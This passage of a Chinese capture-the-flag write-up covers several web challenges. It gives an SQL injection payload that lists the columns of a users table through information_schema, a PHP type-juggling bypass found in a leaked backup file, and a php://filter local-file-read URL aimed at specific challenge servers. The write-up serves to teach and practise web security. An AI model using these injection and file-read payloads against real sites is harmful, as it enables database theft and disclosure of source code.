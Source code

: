 ```
(select group_concat(column_name) from information_schema.columns where table_schema = 0x77656238 and table_name = 0x7573657273)

```

用bp抓包修改放包也可以
要注意csrf-token的处理 即一次的token只能更新一次

# web10  `文件泄露`
index.php~
```php
<?php
header('content-type:text/html;charset=utf-8');
include './flag.php';
error_reporting(0);
if(empty($_GET['id'])){
    header('location:./1ndex.php');
}else{
	$id = $_GET['id'];
	if (!is_numeric($id)) {
		$id = intval($id);
		switch ($id) {
			case $id>=0:
				echo "快出去吧，走错路了～～～<br>";
				echo "这么简单都不会么？";
				break;
			case $id>=10:
				exit($flag);
				break;
			default:
				echo "你走不到这一步的!";
				break;
		}
	}
}

?>
```
http://123.206.31.85:10015/index.php?id=a10



# web22 **好像被改了**
```
hhhhArray ( [0] => .. [1] => dev [2] => etc [3] => bin [4] => usr [5] => lib64 [6] => lib [7] => web [8] => tmp [9] => log `[10] => . [11] => ) 
```

http://123.206.31.85:10022/hello.php?file=php://filter/convert.base64-encode/resource=haha.php
```php
haha.php
<?php      echo "hhhh";      $dr = @opendir('/');    if(!$dr) {      echo "Error opening the /tmp/ directory!<BR>";      exit;    }     while(($files[] = readdir($dr)) !== false);     print_r($files);  ?>
```
